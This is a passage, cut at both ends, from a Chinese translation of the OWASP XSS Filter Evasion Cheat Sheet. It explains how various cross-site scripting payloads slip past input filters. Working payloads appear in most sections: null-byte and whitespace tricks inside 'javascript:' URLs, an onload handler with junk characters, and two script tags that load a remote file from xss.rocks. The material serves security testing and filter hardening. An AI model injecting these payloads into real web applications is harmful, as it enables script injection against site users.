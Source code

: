 ```
<IMG SRC="jav ascript:alert('XSS');">
```

### Null 分解 JavaScript 指令[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#null-breaks-up-javascript-directive)

Null 字符也可以用作 XSS 向量，但不像上面那样，您需要使用 Burp Proxy 之类的东西直接注入它们或`%00`在 URL 字符串中使用，或者如果您想编写自己的注入工具，您可以使用 vim（`^V^@`将产生空值）或以下程序将其生成为文本文件。好吧，我又撒谎了，旧版本的 Opera（Windows 上大约是 7.11）容易受到一个额外的字符 173（软连字符控制字符）的攻击。但是 null char`%00`更有用，它帮助我绕过某些现实世界的过滤器，这个例子有一个变体：

```
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```

### XSS 图像中 JavaScript 之前的空格和元字符[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#spaces-and-meta-chars-before-the-javascript-in-images-for-xss)

如果模式匹配不考虑单词中的空格（这是正确的，因为它不会呈现）并且错误地假设引号和关键字`javascript:`之间不能有空格，这将很有用。`javascript:`实际情况是您可以使用十进制 1-32 中的任何字符：

```
<IMG SRC="  javascript:alert('XSS');">
```

### 非字母非数字 XSS[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#non-alpha-non-digit-xss)

Firefox HTML 解析器假定 HTML 关键字后的非字母非数字无效，因此认为它是 HTML 标记后的空格或无效标记。问题是一些 XSS 过滤器假定他们正在寻找的标签被空格分解。例如`\<SCRIPT\\s`!= `\<SCRIPT/XSS\\s`：

```
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

然而，基于与上述相同的想法，使用 Rnake fuzzer 对其进行了扩展。Gecko 渲染引擎允许在事件处理程序和等号之间使用除字母、数字或封装字符（如引号、尖括号等）以外的任何字符，从而更容易绕过跨站点脚本块。请注意，这也适用于重音字符，如下所示：

```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit 让我注意到这一点，IE 和 Gecko 渲染引擎之间的行为略有不同，只允许在标记和参数之间使用斜线，没有空格。如果系统不允许空格，这可能很有用。

```
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

### 无关的开括号[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#extraneous-open-brackets)

由 Franz Sedlmaier 提交，这个 XSS 向量可以击败某些检测引擎，这些引擎首先使用匹配的开闭尖括号对，然后通过比较内部的标签，而不是像 Boyer-Moore 这样更有效的算法来寻找开尖括号和相关标签的整个字符串匹配（当然是去混淆后）。双斜杠注释掉结束的无关括号以抑制 JavaScript 错误：
